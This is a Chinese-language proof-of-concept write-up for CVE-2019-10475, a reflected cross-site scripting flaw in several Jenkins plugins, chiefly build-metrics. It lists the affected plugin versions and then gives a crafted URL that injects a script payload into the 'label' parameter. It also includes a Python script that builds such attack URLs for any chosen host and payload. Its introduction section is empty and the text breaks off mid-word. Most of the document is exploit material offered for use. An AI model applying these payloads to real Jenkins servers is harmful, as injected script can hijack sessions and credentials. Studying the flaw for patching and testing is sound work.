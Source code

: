 （CVE-2019-10475） 插件反射型xss
================================

一、漏洞简介
------------

二、漏洞影响
------------

360 FireLine插件， 最高包括1.7.2 Bitbucket OAuth插件， 最高包括0.9
Build-metrics插件 1.3及以下 部署WebLogic Plugin 最高至4.1
Dynatrace应用程序监视插件， 最高包括2.1.3 Dynatrace应用程序监视插件，
最高包括2.1.4 ElasticBox Jenkins Kubernetes CI / CD插件， 最高至1.3
包含1.1.4及以下版本的 全局Post Script插件 Libvirt Slaves插件，
最高包括1.8.5 截至 2.7.0的 Mattermost Notification插件 Sonar
Gerrit插件， 最高包括2.3 Zulip插件 （包括1.1.0及以下）

三、复现过程
------------

### 1、手工复现

该vulnearble插件位于[http://localhost:8080/plugin/build-metrics/，漏洞参数为label。](http://localhost:8080/plugin/build-metrics/，漏洞参数为label。)

    http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search

![](resource/(CVE-2019-10475)反射xss/media/rId26.png)

### 2、利用脚本

    #!/usr/bin/env python

    import sys
    import argparse

    VULN_URL = '''{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search'''


    def get_parser():
        parser = argparse.ArgumentParser(description='CVE-2019-10475')
        parser.add_argument('-p', '--port', help='port', default=80, type=int)
        parser.add_argument('-d', '--domain', help='domain', default='localhost', type=str)
        parser.add_argument('-i', '--inject', help='inject', default='<script>alert("CVE-2019-10475")</script>', type=str)
        return parser


    def main():
        parser = get_parser()
        args = vars(parser.parse_args())
        port = args['port']
        domain = args['domain']
        inject = args['inject']
        if port == 80:
            base_url = f'http://{domain}'
        elif port == 443:
            base_url = f'https://{domain}'
        else:
            base_url = f'http://{domain}:{port}'
        build_url = VULN_URL.format(base_url=base_url, inject=inject)
        print(build_url)
        return 0


    if __name__ == '__main__':
        sys.exit(main())
    Usage:

    $ python3 CVE-2019-10475.py --help
    usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]

    CVE-2019-10475

    optional arguments:
      -h, --help            show this help message and exit
      -p PORT, --port PORT  port
      -d DOMAIN, --domain DOMAIN
                            domain
      -i INJECT, --inject INJECT
                            injec
